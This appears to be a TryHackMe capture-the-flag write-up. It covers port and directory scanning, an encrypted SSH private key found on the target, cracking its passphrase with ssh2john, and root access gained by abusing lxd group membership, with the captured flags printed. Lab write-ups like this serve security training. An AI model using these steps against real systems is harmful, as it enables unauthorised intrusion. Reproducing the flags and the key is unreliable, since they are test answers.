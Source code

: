 ## tryhackme
```
└─# nmap -sV -A -Pn -p- --min-rate 5000 $ip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 340efe0612673ea4ebab7ac4816dfea9 (RSA)
|   256 49611ef4526e7b2998db302d16edf48b (ECDSA)
|_  256 b860c45bb7b2d023a0c756595c631ec4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), CyanogenMod 11 (Android 4.4.4) (92%), Dell Networking Operating System 6.2 (Linux 3.6) (92%), Android 4.1.1 (92%), Android 4.3 (92%)
```
found this comment on website
 john, please add some actual content to the site! lorem ipsum is horrible to look at. 

 found using dirsearch 
```
[14:50:23] 200 -    2KB - /about.php
[14:50:23] 200 -    1KB - /about.html
[14:52:12] 200 -    3KB - /index.html
[14:53:20] 200 -   33B  - /robots.txt
[14:53:22] 200 -  939B  - /secret/
[14:53:22] 301 -  311B  - /secret  ->  http://10.10.72.34/secret/
[14:53:23] 403 -  276B  - /server-status
[14:53:23] 403 -  276B  - /server-status/
[14:53:47] 301 -  312B  - /uploads  ->  http://10.10.72.34/uploads/
[14:53:47] 200 -    1KB - /uploads/
```
on secret i found this key
```terminal
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----

```
tried to connect using this rsa for the user john account
but they asked me password.
i will crack using ssh2john
cracked : letmein          (?) 
user: john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

PrivEsc 
i used john@exploitable:~$ groups
john adm cdrom sudo dip plugdev lxd
 and found lxd 
 can also use : john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
I think i can exploit the lxd
here is the tool to use : git clone  https://github.com/saghul/lxd-alpine-builder.git
john@exploitable:/tmp/priv$ ls
alpine-v3.18-x86_64-20230915_1515.tar.gz
john@exploitable:/tmp/priv$ lxc image import ./alpine-v3.18-x86_64-20230915_1515.tar.gz --alias bloman
Image imported with fingerprint: f17a554458e18faf0449cccce6b04501
~ # find / -type f -name root.txt
find: /sys/kernel/debug: Permission denied
/mnt/root/root/root.txt
~ # cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc

I will also try linpeas to find other stuff
Linpeash suggest Pwnkit attack